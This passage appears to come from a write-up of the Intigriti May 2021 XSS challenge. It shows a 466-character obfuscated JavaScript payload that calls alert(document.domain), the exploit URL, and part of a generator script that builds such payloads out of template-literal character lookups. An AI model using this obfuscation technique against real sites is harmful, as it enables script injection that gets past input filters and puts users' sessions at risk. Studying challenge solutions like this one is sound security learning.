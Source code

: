The winner is `some`, which can replace the original `[]['constructor']`.

Finally, since we don't need to execute any code, use `alert(document.domain)` instead. Although `eval(name)` seems shorter at first glance, it's actually more difficult to get `v`, so it will cost more characters.

The resulting code is 466 characters long:

```
length: 466
======= Payload =======
[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`][`${e}`[5]+`${e}`[1]+`${e}`[25]+`${e}`[18]+`${e}`[6]+`${e}`[13]+`${e[0]}`[0]+`${e}`[5]+`${e}`[6]+`${e}`[1]+`${e}`[13]]`_${`${0/0}`[1]+`${e}`[21]+`e`+`${e}`[13]+`${e}`[6]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[13]+`${e[0]}`[2]+`${e}`[1]+`${e}`[5]+`${e[0]}`[0]+`${e}`[23]+`e`+`${e}`[25]+`${e}`[6]+`.`+`${e[0]}`[2]+`${e}`[1]+`${e}`[23]+`${0/0}`[1]+`${e[0]}`[5]+`${e}`[25]+`${[][`${e}`[18]+`${e}`[1]+`${e}`[23]+`e`]}`[14]}`` `
======= URL =======
https://challenge-0521.intigriti.io/captcha.php?c=[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`][`${e}`[5]%2b`${e}`[1]%2b`${e}`[25]%2b`${e}`[18]%2b`${e}`[6]%2b`${e}`[13]%2b`${e[0]}`[0]%2b`${e}`[5]%2b`${e}`[6]%2b`${e}`[1]%2b`${e}`[13]]`_${`${0/0}`[1]%2b`${e}`[21]%2b`e`%2b`${e}`[13]%2b`${e}`[6]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[13]%2b`${e[0]}`[2]%2b`${e}`[1]%2b`${e}`[5]%2b`${e[0]}`[0]%2b`${e}`[23]%2b`e`%2b`${e}`[25]%2b`${e}`[6]%2b`.`%2b`${e[0]}`[2]%2b`${e}`[1]%2b`${e}`[23]%2b`${0/0}`[1]%2b`${e[0]}`[5]%2b`${e}`[25]%2b`${[][`${e}`[18]%2b`${e}`[1]%2b`${e}`[23]%2b`e`]}`[14]}``+`
```

The code used to generate it is:

``` js
const mapping = {
  a: '`${0/0}`[1]',
  b: '`${e}`[2]',
  c: '`${e}`[5]',
  d: '`${e[0]}`[2]',
  e: '`e`',
  f: '`${e[0]}`[4]',
  g: '`${e}`[15]',
  i: '`${e[0]}`[5]',
  j: '`${e}`[3]',
  l: '`${e}`[21]',
  m: '`${e}`[23]',
  n: '`${e}`[25]',
  o: '`${e}`[1]',
  r: '`${e}`[13]',
  s: '`${e}`[18]',
  t: '`${e}`[6]',
  u: '`${e[0]}`[0]',
  ".": '`.`'
}

function getString(str) {
  return str.split('').map(c => mapping[c] || 'errorerror:' + c).join('+')
}

const some = getString('some')
mapping['('] = '`${[][' + some + ']}`[13]'
mapping[')'] = '`${[][' + some + ']}`[14]'

const cons = getString('constructor')
let strConstructor = '``['+ cons + ']'
strConstructor = '`${' + strConstructor + '}`'

const strToString = `${mapping.t}+${mapping.o}+${strConstructor}[9]+${mapping.t}+${mapping.r}+${mapping.i}+${mapping.n}+${mapping.g}`
mapping.v = '31[' + strToString + ']`36`'

const ans = 
```